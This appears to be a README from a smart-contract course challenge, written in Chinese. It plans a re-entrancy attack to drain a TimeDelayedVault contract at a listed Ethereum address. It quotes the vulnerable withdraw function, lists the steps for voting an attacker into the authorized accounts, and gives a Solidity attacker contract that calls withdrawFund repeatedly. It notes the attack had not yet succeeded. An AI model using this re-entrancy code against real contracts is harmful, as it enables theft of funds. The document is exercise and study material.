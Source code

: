 # TimeDelayedVault
# 合约地址
0x997f5d2A4865D48873E4D4130A791C801D209E12

## 关于重生
有一个12小时的限制。
刚刚智才同学已经更新过了，下次更新，需要发生在2018/7/14 15:55之前


# 攻击方案
## re-entry
    function withdrawFund() onlyAuthorized external returns (bool) {
        require(now > nextWithdrawTime);
        assert(withdrawObserver.call(bytes4(sha3("observe()"))));
        walletLibrary.delegatecall(bytes4(sha3("basicWithdraw()")));
        nextWithdrawTime = nextWithdrawTime + withdrawCoolDownTime;
        return true;
    }
因为这里的金额转账发生在时间修改之前。
根据第七课特别提到的re-entry攻击。通过智能合约去调用该方法，然后获得所有权之后，重复调用。在block gas limit限制下，尽量多的获取ETH。


先自行在测试网络上部署，在自己的测试网络上尝试
1. 先建立投票选出取钱的地址，每个小组成员都调用该函数
addAuthorizedAccount
投票选择取钱的目标是攻击合约的地址
2. 调用setObserver函数，随便一个地址
3. re-entry攻击

尚未成功。

### 攻击流程
1. 需要确定每个人的地址在`authorizedUsers[index]`中的`index`；
2. 每个人调用`function addAuthorizedAccount(uint votePosition, address proposal)`，投票出攻击发动者
    - `votePosition`表示步骤1中的`index`
    - `proposal`表示推举出的攻击发动者地址
    - 此过程一旦有人输入错误的`proposal`地址，则需要全部重来
3. 攻击发动者调用`function setObserver(address ob)`，以避免`assert(withdrawObserver.call(bytes4(sha3("observe()"))))`验证失败
    - `ob`可为任意地址
4. 发动攻击



## 下一个方案

提议一下简单的Attack代码：
contract Attacker{
    uint public stack = 0;
    TimeDelayedVault vault;
    address va;

    function Attacker(address vaultAddress) payable {
        va = vaultAddress;
        vault = TimeDelayedVault(vaultAddress);
    }
    
    function getVaultAddress() public returns (address a) {
        a = va;
    }
    
    function attack(){
        vault.withdrawFund(this);
    }

    function() payable {
        if(stack++ < 10){
            vault.withdrawFund(this);
        }
    }
    
}
